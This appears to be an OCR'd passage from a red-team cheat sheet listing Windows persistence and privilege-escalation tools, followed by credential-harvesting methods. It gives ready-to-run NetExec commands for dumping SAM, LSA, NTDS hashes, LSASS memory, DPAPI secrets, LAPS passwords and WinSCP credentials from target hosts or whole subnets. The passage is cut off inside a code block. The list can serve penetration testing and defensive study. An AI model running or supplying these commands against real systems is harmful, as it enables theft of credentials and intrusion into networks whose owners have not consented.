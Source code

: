 ## Host Persistence
- `SharpPersist`
- [Read](https://hadess.io/wp-content/uploads/2023/11/Windows-Persistence.pdf)

## Host Privilege Escalation
- `SharpUp`
- `PowerUp`
- `Tokenvator`
- `Powersploit`
- `Privesc`
- `linWinPwn`
- `Lynis`
- enigma0x3 blogs
- powerview
- privesc

---

## Credential Harvesting Techniques

### Methods
- FInd Shares using PowerHuntShares
- Keystroke Logging
- SAM Database Dumping
	```
	nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --sam
	```
- LSASS Memory Dumping (`miniDump.net`)
	```
	nxc smb 192.168.255.131 -u administrator -p pass -M lsassy
	```
- Autologon Credential Dumping
- Windows Credential Manager (DPAPI)
	-[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)
	```
	nxc smb <ip> -u <user> -p <pass> --dpapi
	```
- LAPS Credential Dumping
  - `LAPSToolkit`
  - `SharpLAPS`
  - `Get-GPPPassword.ps1
  - `impacket-getLAPSPassword`
	```
	nxc ldap "$DC_HOST" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" --module laps
	```
- NTDS Hash Extraction (`ntdsutil`)
  - `gosecretsdump`
  - `ntdsdotsqlite`
	```
	 nxc smb <ip>  -u <user> -H <pass> --ntds
	```
- Kerberos Encryption Keys
- Domain Cached Credentials
- Kerberos Tickets (`LaZagne`)
- Dump Winscp
	```
	nxc smb <ip> -u <user> -p <pass> -M winscp
	```
- Dump Lsa
	```
	nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --lsa